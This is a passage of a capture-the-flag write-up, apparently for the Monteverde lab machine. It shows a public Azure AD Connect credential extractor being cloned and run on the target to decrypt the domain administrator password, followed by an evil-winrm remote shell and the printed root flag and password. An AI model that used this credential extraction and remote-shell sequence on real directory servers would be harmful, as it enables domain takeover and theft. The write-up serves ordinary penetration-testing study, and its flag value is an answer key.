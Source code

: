 ```bash
Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.


```

Upon regrouping and doing some research, I was able to find this tool by CloudyKhan that extracts passwords from Azure AD ([https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor](https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor)).  The Azure-AD-Connect-Credential-Extractor tool was cloned from GitHub and the decrypt.ps1 script was prepared for transfer to the target machine. The script was copied to the local working directory.

```bash
sudo git clone https://github.com/CloudyKhan/Azure-AD-Connect-Credential-Extractor.git
sudo chmod +x decrypt.ps1 

cp -r decrypt.ps1   /home/kali/Downloads/Monteverde  

```

The decrypt.ps1 script was executed on the target. It successfully connected to the local ADSync database and decrypted the credentials for the domain administrator account. The administrator password was revealed to be `d0m@in4dminyeah!`.

```bash
.\decrypt.ps1
Attempting connection: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync;Integrated Security=True
Error connecting to SQL database. Trying next...
Exception Message: A network-related or instance-specific error occurred while establishing a connection to SQL Server. The server was not found or was not accessible. Verify that the instance name is correct and that SQL Server is configured to allow remote connections. (provider: SQL Network Interfaces, error: 52 - Unable to locate a Local Database Runtime installation. Verify that SQL Server Express is properly installed and that the Local Database Runtime feature is enabled.)
Attempting connection: Data Source=localhost;Initial Catalog=ADSync;Integrated Security=True
Connection successful!
Loading mcrypt.dll from: C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!


```

A remote shell was established on Monteverde using Evil-WinRM with the domain administrator credentials.

```bash
evil-winrm -i 10.129.228.111 -u administrator -p d0m@in4dminyeah!  
```

The root flag was retrieved from the Administrator user's desktop. The flag is 78f6145530147b957665801d9ba03ce2.

```output
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
78f6145530147b957665801d9ba03ce2
```
